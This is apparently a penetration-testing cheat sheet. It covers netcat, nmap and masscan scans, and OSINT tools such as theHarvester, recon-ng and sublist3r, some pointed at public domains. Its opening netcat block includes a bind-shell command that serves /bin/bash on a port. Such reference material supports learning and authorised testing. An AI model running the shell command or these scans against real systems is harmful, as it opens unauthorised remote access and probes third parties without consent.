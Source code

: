 ```bash
nc -l -p 4444 #listen for inbound connections, local port
nc 10.8.22.123 4444 #tcp connection to ip and port
nc -lvp 7777 -e /bin/bash
```

<div style="page-break-before: always"></div>

<h1 id="reconnaissance-tools">Reconnaissance tools</h1>

### nmap

```bash
nmap -sn 10.8.22.0/24 #host discovery
nmap -sS -p 1234 10.8.22.0/24 #TCP SYN scan
nmap -sT -p 1234 10.8.22.0/24 #TCP connect scan test connection 3-way-handshake
nmap -sU --top-ports 100 10.8.22.0/24 #UDP scans
nmap -sS -sV 10.8.22.123 #SYN stealth scan, service and version detection
nmap -sS -O 10.8.22.123 #OS detection
nmap -sS -T4 -p 1-1024 10.8.22.123 #timing and performance
nmap -A 10.8.22.123 #OS and version detection, script scanning, traceroute
```

### masscan

```bash
masscan -p0-1024 --interface eth0 172.16.127.0/24
masscan -p -4000 --interface eth0 127.0.0.1
```

### whois

### theHarvester

```bash
theHarvester -d google.com -l 300 -b all #domain, limit, source
```

### recon-ng

```bash
help
marketplace info all
marketplace search all
marketplace install recon/domains-hosts/hackertarget
modules load recon/domains-hosts/hackertarget
info
options set SOURCE yahoo.com
run
show hosts
```

### sublist3r

```bash
sublist3r -d google.com #finds subdomains
```
